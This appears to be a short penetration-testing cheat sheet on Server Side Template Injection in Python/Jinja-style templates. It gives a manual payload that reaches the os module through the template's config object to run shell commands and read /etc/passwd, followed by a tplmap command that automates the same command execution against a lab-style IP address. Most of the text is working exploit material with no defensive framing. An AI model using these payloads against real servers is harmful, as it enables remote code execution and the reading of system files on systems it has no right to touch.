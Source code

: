 # Server Side Template Injection

Manual RCE

__RCE__ where post is returned
```python
{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
```

Automated TPLMap
```shell
tplmap -u http://10.10.10.10.:5000/ -d 'noot' --os-cmd *cat /etc/passwd*
```
